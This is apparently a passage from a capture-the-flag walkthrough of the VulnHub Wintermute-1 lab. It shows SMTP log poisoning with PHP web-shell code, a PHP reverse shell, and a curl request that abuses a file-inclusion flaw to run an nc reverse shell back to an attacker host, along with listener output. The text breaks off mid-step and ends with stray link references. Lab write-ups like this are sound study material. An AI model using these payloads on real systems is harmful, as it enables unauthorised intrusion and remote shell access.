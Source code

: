 Next step is to do some log poisoning. Using `PayloadsAllTheThings/File\ Inclusion/ `

Please note:
    mail from: <tmix@dany.ke>
    rcpt to: <?php  -r '$sock=fsockopen("192.168.251.4",4242);exec("/bin/sh -i <&3 >&3 2>&3");'  ?>

Using this payload for RCE kills the port 

We'll stick to safety

```
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
_subject: <?php echo system($_REQUEST["cmd"]); ?>_
data2

```
In some cases you can also send the email with the 
```
mail from: <tmix@dany.ke>
rcpt to: <?php echo system ($_REQUEST['cmd']); ?>
```
Next we need to send a reverse shell
Go to pentest monkey for some payloads; 
We'll use:

    curl -v http://192.168.251.7/turing-bolo/bolo.php?bolo=../../../var/log/mail \
    --data-urlencode \
    'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.251.4 4242 >/tmp/f'

Start the listener, and we get a connection once the command above is executed
```
kali@kali:~$ nc -lnvp 4242

listening on [any] 4242 ...
connect to [192.168.251.4] from (UNKNOWN) [192.168.251.7] 42346
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@straylight:/var/www/html/turing-bolo$ ^Z
[1]+  Stopped                 nc -lnvp 4242
kali@kali:~$ stty raw -echo


www-data@straylight:/var/www/html/turing-bolo$ export TERM=xterm
```
Download enumeration scripts; First spin a python server on Attack box:


[jekyll]:      http://jekyllrb.com
[jekyll-gh]:   https://github.com/jekyll/jekyll
[jekyll-help]: https://github.com/jekyll/jekyll-help
[1]: https://www.vulnhub.com/entry/wintermute-1,239/
[2]: https://twitter.com/@_creosote
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator